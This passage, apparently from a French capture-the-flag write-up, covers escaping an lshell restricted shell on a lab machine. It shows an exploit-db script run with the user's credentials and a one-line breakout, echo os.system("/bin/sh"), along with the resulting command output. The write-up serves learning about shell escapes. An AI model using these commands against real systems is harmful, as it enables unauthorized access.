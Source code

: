 Il doit s'agir d'une version un peu ancienne de PHP car il me semble qu'injecter des null bytes n'est plus possible...  

Dans tous les cas inclure des fichiers c'est bien mais ici impossible d'inclure une URL distante et les wrappers PHP ne fonctionnent pas...  

I Won't Let It Happen
---------------------

Injecter dans les logs ? J'avoue j'ai eu la flemme, je suis retourné fouiller un peu ce shell restreint jusqu'à obtenir une erreur intéressante :  

```plain
john:~$ cd -h
lshell: -h: No such file or directory
```

*lshell* ? WUT ? what is this ?  

Une recherche *DuckDuckGo* plus tard on apprend que c'est un shell restreint développé en Python.  

J'ai traîné dans les issues du [Github](https://github.com/ghantoos/lshell/) à la recherche de vulnérabilités mais aucune n'a fonctionné ici :-/   

Pas trop grave car il y a [un exploit](https://www.exploit-db.com/exploits/39632/) correspondant au *lshell* du CTF :  

```plain
$ python 39632.py john MyNameIsJohn 192.168.1.39
[!] .............................
[!] lshell <= 0.9.15 remote shell.
[!] note: you can also ssh in and execute '/bin/bash'
[!] .............................
[!] Checking host 192.168.1.39...
[+] vulnerable lshell found, preparing pseudo-shell...
$ ls -al
total 28
drwxr-xr-x 2 john john 4096 2012-02-04 18:39 .
drwxr-xr-x 5 root root 4096 2012-02-04 18:05 ..
-rw------- 1 john john   61 2012-02-04 23:31 .bash_history
-rw-r--r-- 1 john john  220 2012-02-04 18:04 .bash_logout
-rw-r--r-- 1 john john 2940 2012-02-04 18:04 .bashrc
-rw-r--r-- 1 john john 1530 2018-02-14 21:26 .lhistory
-rw-r--r-- 1 john john  586 2012-02-04 18:04 .profile
```

Mais l'exploit se montre assez peu utilisable... En cherchant bien il y a une astuce qui s'avère bien plus pratique comme indiquée [ici](http://blog.en.hacker.lk/2012/06/how-i-understood-what-happened-in.html) :  

```plain
john:~$ echo os.system("/bin/sh")
$ id
uid=1001(john) gid=1001(john) groups=1001(john)
$ ls -l /root
total 8
-rw-r--r-- 1 root       root        625 Feb  6  2012 congrats.txt
```
